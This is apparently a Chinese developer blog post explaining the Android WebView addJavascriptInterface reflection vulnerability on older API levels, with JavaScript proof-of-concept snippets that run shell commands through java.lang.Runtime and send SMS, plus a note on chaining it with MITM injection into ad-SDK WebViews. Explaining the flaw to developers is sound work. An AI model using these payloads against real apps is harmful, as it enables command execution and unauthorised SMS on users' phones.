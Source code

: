 <img src='https://www.notebookcheck.net/fileadmin/Notebooks/News/_nc3/androidlogo.jpg' />	

去年的某一天，收到客户的反馈说我们的产品在他的手机上不工作。
看了一下日志发现是WebView中JavaScript调用的某个Java方法找不到，通过报错信息搜索后得知：

>Caution: If you've set your targetSdkVersion to 17 or higher, you must add the @JavascriptInterface annotation to any method that you want available your web page code (the method must also be public). If you do not provide the annotation, then the method will not accessible by your web page when running on Android 4.2 or higher.

### 问题
原来是API Level 17后，只会把带有@JavaScriptInterface的方法暴露给JavaScript，因为我的方法都没加这个Annotation，自然就无法调用了。

>Annotation that allows exposing methods to JavaScript. Starting from API level JELLY_BEAN_MR1 and above, only methods explicitly marked with this annotation are available to the Javascript code. See addJavascriptInterface(Object, String) for more information about it.

再看addJavaScriptInterface方法的文档：
>IMPORTANT:
This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLY_BEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content.

大概是说如果你访问了包括恶意内容的页面，攻击者会得到与应用相同的权限，通过反射来做一些你意想不到的事情。
反射？听起来很高级，到底有多危险？

### 原理
因为Java中所有的类都继承自java.lang.Object，而Object类中有一个方法是getClass()，拿到Class后就可以forName加载任意Class进行反射了。
能做什么呢？不妨来研究下。

### 应用

* 执行任意命令：

```JavaScript
function execute(cmd){
     return window.jsInterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"Hello Android!\” > /mnt/sdcard/test.txt']);
```

* 发送短信：

```
var smsManager = window.jsInterface.getClass().forName('android.telephony.SmsManager').getMethod('getDefault', null).invoke(null, null);
smsManager.sendTextMessage('133xxxxxxxx’, null, 'hello', null, null);
```

当然，攻击成功的前提是你的应用具有相应权限，比如上例中需要`WRITE_EXTERNAL_STORAGE`和`SEND_SMS`的权限。

### 扩展
这个漏洞要得到利用，你既要控制web内容，又需要应用本身具有相应权限，看起来没什么大不了的。真的是这样吗？   
很多免费应用都会集成广告平台SDK以在应用中显示广告条增加收入。这个广告条通常是用WebView实现的，而且拥有比较多的权限。如果恶意攻击者使用[dSploit](http://dsploit.net/)发起MITM攻击，篡改服务器返回的内容，插入恶意JavaScript代码，便可以轻易操纵你的手机。

往往这里一个小漏洞，那里一个小漏洞，两个小漏洞结合起来利用就能达到意想不到的效果。
作为开发者，我们要关注开发中的任何一个细节，尽量避免给用户带来威胁。   

---
文中代码：[Demo](https://github.com/hkliya/JavascriptInterfaceDemo)
参考资料：

* [WebView addJavascriptInterface Remote Code Execution](https://labs.mwrinfosecurity.com/advisories/2013/09/24/webview-addjavascriptinterface-remote-code-execution/)
* [addJavaScriptInterface.py](https://github.com/mwrlabs/drozer/blob/bcadf5c3fd08c4becf84ed34302a41d7b5e9db63/src/drozer/modules/exploit/mitm/addJavaScriptInterface.py)

